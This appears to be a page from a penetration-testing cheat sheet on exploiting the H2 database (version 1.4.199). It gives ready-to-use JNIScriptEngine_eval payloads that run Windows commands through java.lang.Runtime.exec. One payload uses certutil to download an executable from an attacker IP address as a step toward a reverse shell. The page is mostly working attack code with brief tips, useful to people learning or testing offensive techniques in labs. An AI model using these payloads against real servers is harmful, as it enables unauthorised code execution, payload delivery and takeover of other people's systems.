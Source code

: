 ```yaml
---
title: H2 (JDBC)
parent: Shell (Reverse/Others)
layout: default
nav_order: 10
---
```


Only for H2.1.4.199

1. Follow instructions in exploit 49384.
2. To gain access to more command use `cmd /c dir` (replacing dir with command you want).
3. Full example:\
`CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("cmd /c dir").getInputStream()).useDelimiter("\Z").next()');`
4. Can then use certutil to grab reverse shell. (must run WITHOUT cmd /c):\
`CALL JNIScriptEngine_eval('new java.util.Scanner(java.lang.Runtime.getRuntime().exec("certutil -f -urlcache http://192.168.49.155/pg80_64.exe pg80.exe").getInputStream()).useDelimiter("\Z").next()');`
5. In summary just try with or without `cmd /c`, also use double slash (`\\`) for directory. Sometimes file put in C:\Windows\Temp\ cannot be located using dir. Just try to run anyway.
